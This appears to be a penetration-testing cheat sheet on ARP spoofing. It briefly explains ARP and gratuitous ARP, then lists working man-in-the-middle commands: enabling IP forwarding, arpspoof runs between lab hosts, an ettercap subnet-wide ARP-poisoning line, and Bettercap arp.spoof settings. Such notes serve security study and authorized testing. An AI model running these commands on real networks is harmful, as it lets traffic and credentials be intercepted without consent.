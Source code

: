 # ARP Spoofing

## ARP

• An ARP request message should be placed in a frame and broadcast to all computers on the network&#x20;

• Each computer receives the request and examines the IP address&#x20;

• The computer mentioned in the request sends a response; all other computers process and discard the request without sending a response

![](<../../.gitbook/assets/image (293) (1) (1).png>)

## Gratuitous ARP

• Gratuitous ARP is used by hosts to “announce” their IP address to the local network and avoid duplicate IP addresses on the network; routers and other network hardware may use cache information gained from gratuitous ARPs&#x20;

• Gratuitous ARP is a broadcast packet (like an ARP request)

![](<../../.gitbook/assets/image (277) (1).png>)

HOST W: Hey everyone I’m host W and my IP Address is 1.2.3.4 and my MAC address is 12:34:56:78:9A:BC

## ARP Spoofing

### arpspoof

```
arpspoof -t [target] -r [router]
```

example:

#### 1. Enable ip forwarding first

```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

#### 2. tell 172.16.5.1 that if they need to communicate with 172.16.5.23 they must pass from the attacker system

```
arpspoof -i tap0 -t 172.16.5.1 -r 172.16.5.23 
```

#### now, in a separate terminal

#### 3. tell 172.16.5.23 that if the need to communicate with 172.16.5.1 they must pass from the pentester system

```
arpspoof -i tap0 -t 172.16.5.23 -r 172.16.5.1
```

### Ettercap

```
ettercap [options] [target1] [target2]
```

example:

```
ettercap -T -q -M arp::remote /172.16.0.1-254//   /172.16.0.1-254//
```

### Bettercap

#### Refer to [Bettercap cheat sheet](arp-spoofing.md#bettercap) for full documentation.

specify a number of IP addresses, comma=separated

```
set arp.spoof.targets IPs
```

turn ARP spoof on/off

```
arp.spoof on / off
```

#### When the arp.spoof module is started, Bettercap will automatically configure the OS features for the MitM attack (such as turning on IP forwarding on Linux systems)
